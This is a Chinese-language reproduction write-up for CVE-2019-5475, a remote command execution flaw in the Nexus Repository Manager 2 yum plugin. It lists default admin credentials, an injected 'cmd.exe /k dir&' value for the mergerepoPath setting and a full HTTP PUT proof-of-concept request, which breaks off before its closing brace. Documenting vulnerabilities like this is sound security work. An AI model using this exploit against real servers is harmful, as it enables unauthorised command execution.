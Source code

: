 （CVE-2019-5475）Nexus2 yum插件RCE漏洞
======================================

一、漏洞简介
------------

该漏洞默认存在部署权限账号，成功登录后可使用"createrepo"或"mergerepo"自定义配置，可触发远程命令执行漏洞

二、漏洞影响
------------

Nexus Repository Manager OSS \<= 2.14.13 Nexus Repository Manager Pro
\<= 2.14.13 限制：admin权限才可触发漏洞

三、复现过程
------------

首先以管理员身份（admin/admin123）登录 然后找到漏洞位置：Capabilities -
Yum:Configuration - Settings

![](./.resource/(CVE-2019-5475)Nexus2yum插件RCE漏洞/media/rId24.png)

点击 Save 抓包，更改mergerepoPath后的value值

    C:\\Windows\\System32\\cmd.exe /k dir&

![](./.resource/(CVE-2019-5475)Nexus2yum插件RCE漏洞/media/rId25.png)

此处使用 /k 是因为这样命令执行完会保留进程不退出，而 /c
后执行完会退出；由于给用户提供的命令后面加了一个
\--version，所以后面要加个&，&表两个命令同时执行，这样就不会干扰其他命令的执行

Poc如下：

    PUT /nexus/service/siesta/capabilities/00012bdb034073a3 HTTP/1.1
    Host: 127.0.0.1:8081
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    X-Nexus-UI: true
    Content-Type: application/json
    X-Requested-With: XMLHttpRequest
    Content-Length: 241
    DNT: 1
    Connection: close
    Referer: http://127.0.0.1:8081/nexus/
    Cookie: NXSESSIONID=105c7cb1-a307-43a3-9ff8-9770b5ae3b13






    {"typeId":"yum","enabled":true,"properties":[{"key":"maxNumberParallelThreads","value":"10"},{"key":"createrepoPath","value":"111"},{"key":"mergerepoPath","value":"C:\\Windows\\System32\\cmd.exe /k dir&"}],"id":"00012bdb034073a3","notes":""
